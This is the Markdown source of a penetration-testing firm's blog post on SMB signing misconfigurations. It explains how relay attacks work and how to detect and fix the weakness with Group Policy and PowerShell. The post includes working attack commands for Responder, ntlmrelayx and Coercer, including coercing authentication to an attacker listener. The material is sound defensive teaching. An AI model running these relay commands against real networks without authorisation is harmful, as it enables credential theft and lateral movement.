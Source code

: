 ```yaml
---
image: "~/assets/images/smbrelay.webp"
title: How To Fix SMB Signing Vulnerabilities
excerpt: "SMB Relay attacks are like a game of telephone where everyone loses."
author: Staff
tags:
 - penetration testing
publishDate: 2024-11-25T00:00:00Z
---
```



# How to Fix SMB Signing Misconfigurations: Don't Pick Up the Telephone

At **Strategic Defense**, SMB signing misconfigurations are a frequent finding during our internal penetration tests. These vulnerabilities allow attackers to execute SMB relay 
attacks, often leading to administrative access on systems we shouldnt have access to. Even better, you can access systems using accounts you don't even have the password for. 
Tools like Responder ([which we've talked about before](https://strategicdefense.co/blog/2024/03/2024-03-10-how-to-fix-llmnr)), ntlmrelayx, and Coercer make exploiting these misconfigurations even easier.

SMB signing ensures authenticity and integrity of SMB packets. Without it, attackers can intercept, relay, or even coerce systems into authenticating to them. Fixing these 
vulnerabilities is a must for any organization aiming to prevent lateral movement and credential compromise.

---

### What is SMB Signing?
SMB signing is a security feature that cryptographically signs SMB communications, ensuring packets are from a legitimate source and haven't been tampered with. When SMB signing 
is not enforced:
1. Attackers can relay authentication requests to other systems (e.g., **SMB Relay** attacks).
2. Attackers can intercept and modify SMB communications.

---

### How SMB Signing is Exploited in Penetration Tests
#### **Tools of the Trade**
1. [**Responder**](https://github.com/lgandx/Responder): Captures NTLM hashes by responding to broadcast protocols like LLMNR and NetBIOS.
2. [**ntlmrelayx**](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py): Relays captured credentials to other systems, bypassing authentication when SMB signing 
is not enforced.
3. [**Coercer**](https://github.com/p0dalirius/Coercer): If you have credentials, you can force machines to authenticate to an attacker-controlled SMB server by exploiting remote 
services like printers or scheduled 
tasks.

#### **Typical Attack Flow**

1. **Prep to relay NTLM Hashes with ntlmrelayx**
   - Use `ntlmrelayx.py` to relay captured NTLM hashes to other vulnerable systems:
   ```bash
   python3 ntlmrelayx.py -tf targets.txt --smb2support
   ```

2. **Intercept Authentication Requests with Responder**
   - Launch Responder to capture NTLM hashes by poisoning LLMNR or NetBIOS Name Service (NBT-NS).
   ```bash
   sudo responder -I eth0
   ```

3. **Alternatively, Force Authentication with Coercer (if you have credentials)**
   - You can use **Coercer** to trigger SMB authentication requests from remote systems to an attacker-controlled server, to then relay them to other systems. This can be helpful 
if you have a set of limited-permission credentials, and want to upgrade to say, a machine account or other privileged user. 
   ```bash
   python3 Coercer.py coherce -l <listener-ip> -t <target-ip> -u <username> -p <password> -d DOMAIN.local
   ```
   - This technique can be used in combination with tools like **ntlmrelayx** to execute relay attacks.

   Example output from Coercer might show SMB connections being initiated:
   ```
   [+] Coercing authentication via Print Spooler service.
   [*] Sending requests to \\<target-ip>\pipe\spoolss
   ```

---

### How to Detect SMB Signing Misconfigurations
#### **Manual Checks**
Use **PowerShell** to identify SMB signing configurations:

- **On Servers:**
  ```powershell
  Get-SmbServerConfiguration | Select EnableSecuritySignature, RequireSecuritySignature
  ```

- **On Clients:**
  ```powershell
  Get-SmbClientConfiguration | Select EnableSecuritySignature, RequireSecuritySignature
  ```
If “RequireSecuritySignature” says False, you’ve got a problem.


#### **Automated Scanning**
- **Nmap:**
  ```bash
  nmap --script smb-security-mode.nse -p445 <target-ip>
  ```
  Look for results indicating SMB signing is **optional** or **disabled**.

- **NetExec:**
  ```bash
  nxc smb <target-ip> --gen-relay-list targets.txt
  ```
  If the output suggests SMB signing is not required, those targets are vulnerable to relay attacks. This is the same way pentesters build SMB Relay attack lists to work from. 

- **Cohercer:**
  ```bash
  python3 Coercer.py scan -t <target-ip> -u username -p password -d DOMAIN.local -v
  ```
  Look for results indicating "Accessible", or requests hitting your Responder instance.

---

### How to Fix SMB Signing Misconfigurations
#### **1. Enforce SMB Signing**
Use Group Policy to enable and require SMB signing across your network:
- Navigate to **Computer Configuration > Administrative Templates > Network > Lanman Workstation**.
- Set:
  - **Enable security signatures**: Enabled.
  - **Require security signatures**: Enabled.

#### **2. Verify SMB Signing Configuration Using PowerShell**
- On servers:
  ```powershell
  Set-SmbServerConfiguration -RequireSecuritySignature $true -Force
  ```
- On clients:
  ```powershell
  Set-SmbClientConfiguration -RequireSecuritySignature $true -Force
  ```

#### **3. Disable SMBv1 Using PowerShell**
SMBv1 is outdated and inherently insecure. Disable it:
```powershell
Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol
```

#### **4. Test the Configuration**
After making changes, rerun tools like **Responder** and **ntlmrelayx** to ensure SMB relay attacks are no longer possible.

---

### Common Challenges
One common challenge to enabling SMB Signing is **Legacy Systems**. Older devices may not support SMB signing, so isolate these systems or replace them. Ensuring they dont share 
credentials / authentication with other systems (i.e. Active Directory) can be a good move. This way if an attacker gets in a position to relay authentication attempts, they won't 
work (because the credentials arent shared) on the target vulnerable system.

---

### Conclusion
SMB signing misconfigurations are a gateway to serious internal network compromises. As password policies improve, testers (and threat actors) move towards relay attacks since 
they dont require the underlying password to be cracked in order to compromise the account. Tools like **Responder**, **ntlmrelayx**, and **Coercer** highlight the ease with which 
attackers can exploit these weaknesses. By enforcing SMB signing and hardening other SMB configurations, you can protect your organization from these attacks.

At **Strategic Defense**, we specialize in identifying and remediating vulnerabilities like these during our penetration tests. Check out our [services](https://strategicdefense.co/services) to learn 
how we can help secure your environment against advanced threats.
